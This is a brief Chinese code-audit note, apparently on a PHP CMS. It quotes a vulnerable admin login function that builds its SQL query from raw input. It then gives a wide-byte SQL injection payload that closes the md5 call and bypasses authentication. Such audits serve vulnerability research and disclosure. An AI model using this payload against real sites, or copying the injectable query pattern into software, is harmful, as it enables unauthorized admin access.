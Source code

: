 宽字节注入是全局的问题，这边就尝试个万能密码登陆下后台，qaq

后台登陆

路径：admin/include/common.fun.php

关键代码

```
function check_admin($name, $pwd)
{
	global $db;
	$row = $db->getone("SELECT COUNT(*) AS num FROM ".table('admin')." WHERE admin_name='$name' and pwd = md5('$pwd')");
 	if($row['num'] > 0)
 	{
 		return true;
 	}
 	else
 	{
 		return false;
 	}
}
```

注意这里有个MD5 所以相比较普通的万能语句，需要使用)号闭合。

```
%df') or 2=2#
```

![](宽字节注入万能密码.png)
